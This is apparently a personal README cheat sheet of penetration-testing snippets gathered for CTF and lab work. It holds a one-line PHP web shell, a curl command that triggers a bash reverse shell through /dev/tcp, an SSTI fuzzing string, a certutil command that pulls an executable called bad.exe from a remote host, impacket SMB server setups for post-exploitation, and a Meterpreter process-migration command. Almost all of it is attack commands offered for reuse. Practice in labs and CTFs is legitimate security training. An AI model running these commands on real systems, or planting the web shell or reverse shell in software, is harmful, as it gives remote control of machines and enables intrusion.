 in here is things i have copy pasted since i have to look for them way too often, i take no credit for anything btw

### bash reverse shell from a php command thing

When you have one of these uploaded:

```php
<?php system($_REQUEST['cmd']); ?>
```

and need a revshell.

```bash
curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

### SSTI Fuzzing string

stolen from hacktricks bc i use it often and it takes me forever to find it each time
```
${{<%[%'"}}%\
```

### Certutil File Download

stolen from ired.team. i forgor this one way too much aswell

```powershell
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

### smberver commands

```bash

# accept specific auth
smbserver.py -smb2support <SHARENAME> <LOCALPATH> -username <USERNAME> -password <PASSWORD>
smbsever.py -smb2support POSTEXP /home/tobeatelite/ctf/tools/privesc -username tbe -password tbe

# anon access
smbserver.py <SHARENAME> <LOCALPATH>
smbserver.py POSTEXP /home/tobeatelite/ctf/tools/privesc

```

Meterpreter auto migrate
```
meterpreter > run post/windows/manage/migrate
```

enter docker container 

```
docker exec -it <container_name> bash
```
